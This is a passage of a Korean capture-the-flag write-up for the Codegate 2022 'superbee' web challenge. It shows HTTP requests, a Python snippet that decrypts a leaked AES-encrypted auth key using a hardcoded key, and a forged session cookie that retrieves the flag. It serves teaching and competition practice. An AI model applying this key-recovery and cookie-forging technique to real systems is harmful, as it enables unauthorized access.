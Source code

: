 ```
[ Request ]
GET /admin/authkey HTTP/1.1
Host: localhost:30001
...
Connection: close

[ Response ]
HTTP/1.1 200 OK
...

00fb3dcf5ecaad607aeb0c91e9b194d9f9f9e263cebd55cdf1ec2a327d033be657c2582de2ef1ba6d77fd22784011607
```

위 AES128 암호문을 복호화하면 다음과 같이 나온다.

```python
from Crypto.Cipher import AES
key = b'\x10' * 16
aes = AES.new(key, AES.MODE_CBC, key)
plaintext = aes.decrypt(bytes.fromhex('00fb3dcf5ecaad607aeb0c91e9b194d9f9f9e263cebd55cdf1ec2a327d033be657c2582de2ef1ba6d77fd22784011607'))
print(plaintext)

$ python3 sol.py
b'Th15_sup3r_s3cr3t_K3y_N3v3r_B3_L34k3d\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b'
```

이제 문제의 핵심이었던, Session을 만들고 Cookie로 설정한 다음에 index에 요청을 날리면 된다.

```
[ Request ]
GET /main/index HTTP/1.1
Host: 3.39.49.174:30001
Cookie: f5b338d6bca36d47ee04d93d08c57861=e52f118374179d24fa20ebcceb95c2af;
...
Connection: close

[ Response ]
HTTP/1.1 200 OK
...
Connection: close

<html>
    <head>
        <title>superbee</title>
    </head>
    <body>
        <h3>Index</h3>
        codegate2022{d9adbe86f4ecc93944e77183e1dc6342}
    </body>
</html>
```
